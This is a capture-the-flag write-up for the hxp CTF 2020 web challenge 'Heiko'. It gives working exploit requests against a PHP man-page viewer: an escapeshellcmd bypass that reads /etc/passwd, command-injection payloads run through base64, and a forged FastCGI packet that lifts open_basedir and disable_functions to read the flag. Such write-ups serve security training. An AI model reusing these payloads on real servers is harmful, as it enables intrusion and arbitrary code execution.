

# hxp CTF 2020 - Heiko
## Web - 244 points



[App source](index.php)

According to the challenge files, the flag is in a randomly generated file `/flag_[a-zA-Z0-9]{24}.txt`.

```php
$arg = escapeshellcmd($arg); // Pass spaces through. Otherwise, we can't 'man git diff'
$manpage = shell_exec('/usr/bin/man --troff-device=html --encoding=UTF-8 ' . $arg);
```
### Invalid characters bypass

Using a character between *0x80* and *0xff* we can skip the first restriction.

In addition, the function `escapeshellcmd` eliminates this character and does not disturb us.

For example, this request returns the contents of the passwd file.

`?page=%ff/etc/passwd`

### RCE

After a while looking for a way to execute commands, we get to execute code, it should be noted that the order of the parameters matters.

`?page=%ff--html=bash --troff-device=latin1 /proc/self/cmdline ;sleep${IFS}5`

### Trying to access /flag*
* Using bash
`--html=bash .... ;echo${IFS}Y2F0IC9mbGFnKiAyPj4vdG1wL2Vycm9yICAgPj4vdG1wL3BhdGF0YWZsYWcy|base64${IFS}-d|bash`
* Using PHP
`--html=php .... ;<?=shell_exec(base64_decode(Y2F0IC9mbGFnKiAyPj4vdG1wL2Vycm9yICAgPj4vdG1wL3BhdGF0YWZsYWcy));?>`

In both cases APPARMOR blocks us

`audit: type=1400 ...: apparmor="DENIED" operation="open" profile="/usr/bin/man" name="/" pid=21653 comm="sh" requested_mask="r" denied_mask="r" fsuid=33 ouid=0`

`cat: '/flag*': No such file or directory`

### apparmor/open_basedir bypass

To get around these restrictions, we interact with the FastCGI socket of *php-fpm* to execute a PHP script.

First we use the script [fastcgipacket.rb](https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb) and generate a payload in base64.

```ruby
packet << FCGIRecord::Params.new( 1,
            "REQUEST_METHOD" => "GET",
            "SCRIPT_FILENAME" => "/tmp/patata.php",
            "PHP_VALUE" => "open_basedir=\"/\"",
            "PHP_ADMIN_VALUE" => "disable_functions=\"\""
            ).to_s
```

```sh
AQEAAQAIAAAAAQAAAAAAAAEEAAEAcwMADgNSRVFVRVNUX01FVEhPREdFVA8PU0NSSVBUX0ZJTEVOQU1FL3RtcC9wYXRhdGEucGhwCRBQSFBfVkFMVUVvcGVuX2Jhc2VkaXI9Ii8iDxRQSFBfQURNSU5fVkFMVUVkaXNhYmxlX2Z1bmN0aW9ucz0iIgAAAAEEAAEAAAAAAQUAAQAAAAAK
```

In addition, we upload a php script in the temporary directory by executing the following command, encoded in base64.

`echo "<?=shell_exec('cat /flag* > /tmp/patataflag');?>" >/tmp/patata.php`

`;echo${IFS}ZWNobyAiPD89c2hlbGxfZXhlYygnY2F0IC9mbGFnKiA%2bIC90bXAvcGF0YXRhZmxhZycpOz8%2bIiA%2bL3RtcC9wYXRhdGEucGhw|base64${IFS}-d|bash`

Now we launch the query to FastCGI's socket with the following PHP code.
The location of the PHP-fpm socket appears in the challenge's configuration files `/run/php/php7.3-fpm.sock`

```php
<?php
  $fp=fsockopen(base64_decode(dW5peDovLy9ydW4vcGhwL3BocDcuMy1mcG0uc29jaw),0,$errno,$errstr);
  var_dump($fp);
  var_dump($errstr);
  fwrite($fp,base64_decode(AQEAAQ...AAAAK));
  while(!feof($fp)){
    echo(fgets($fp,128));
  }
  fclose($fp);
?>
```
We launch the following request, using `--html=php` and a script without spaces
```
?page=%ff--html%3dphp+--troff-device%3dlatin1+--nh+--no-subpages+/proc/self/cmdline+;<?=$fp=fsockopen(base64_decode(dW5peDovLy9ydW4vcGhwL3BocDcuMy1mcG0uc29jaw),0,$errno,$errstr);var_dump($fp);var_dump($errstr);fwrite($fp,base64_decode(AQEAAQAIAAAAAQAAAAAAAAEEAAEAcwMADgNSRVFVRVNUX01FVEhPREdFVA8PU0NSSVBUX0ZJTEVOQU1FL3RtcC9wYXRhdGEucGhwCRBQSFBfVkFMVUVvcGVuX2Jhc2VkaXI9Ii8iDxRQSFBfQURNSU5fVkFMVUVkaXNhYmxlX2Z1bmN0aW9ucz0iIgAAAAEEAAEAAAAAAQUAAQAAAAAK));while(!feof($fp)){echo(fgets($fp,128));}fclose($fp);?>
```

### Read Flag
Once the flag has been copied to the temporary directory, we can read it directly from the website .

`/?page=%ff/tmp/patataflag`

`hxp{maybe_this_will_finally_get_me_that_sweet_VC_money$$$}`
